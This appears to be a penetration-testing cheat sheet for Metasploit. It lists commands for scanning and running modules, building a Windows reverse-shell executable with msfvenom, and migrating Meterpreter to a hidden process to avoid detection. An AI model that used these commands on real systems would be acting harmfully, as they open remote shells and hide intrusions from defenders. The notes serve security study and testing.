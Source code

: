 ```yaml
---
title: "Metasploit"
weight: 4
description: ""
---
```


# Metasploit

## Metasploit

```sh
# Start the database service & create and initialize the MSF database
msfdb init

# Enable the database service
sudo systemctl enable postgresql

# Verify database connectivity
db_status

# Create workspace
workspace -a target1

# Scan with nmap
db_nmap -A <TARGET1>

# List of all discovered hosts up
hosts

# Display discovered services
services
services -p 5000 # specific port

# Search all SMB auxiliary modules
search type:auxiliary smb
search apache

# Activate a module
use 5

# Get information about the currently activated module
info

# Display the options of a module
show options

# Get a list of all payloads that are compatible with the currently selected module
show payloads

# set & unset an option
set <OPTION> <VALUE>
unset <OPTION>

# Set a payload
set payload payload/linux/x64/shell_reverse_tcp

# Launch a module
run

# Show vulnerabilities that Metasploit automatically detected based on the results of the executed module
vulns

# Show valid credentials we gathered
creds

# Background session
CTRL + Z

# List all active sessions
sessions -l

# Interact with a session
sessions -i 2
```
---

## msfvenom
```sh
# List payloads
msfvenom -l payloads --platform windows --arch x64

# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f exe -o file.exe
```

{{< hint style=notes >}}
**Note**: To handle a staged payload don't use netcat. Use Metasploit’s `multi/handler` instead.
{{< /hint >}}

---

## Migrate (meterpreter)

Reason to migrate:
When a host is compromised, the Meterpreter payload runs inside the process used for exploitation. 
* **Stability**: If that process is closed, your access is lost
* **Avoid detection**: The process name may also appear suspicious to defenders
* **Compatibility**: The payload may be 64-bit, but the session is on an 86-bit OS

To avoid this, we can use `migrate` to move the payload to a more stable or inconspicuous process.

{{< hint style=notes >}}
**Note**: Migration is only allowed to processes with the same or lower integrity and privilege level.
{{< /hint >}}

```sh
# Show list process
meterpreter > ps

# Migrate
meterpreter > migrate 8052
```

If no suitable process is available for migration, we can use the execute command to create a new process and run the Meterpreter payload within it by specifying a desired command or program.

```sh
# Create a hidden process
meterpreter > execute -H -f notepad

# Migrate
meterpreter > migrate 8052
```

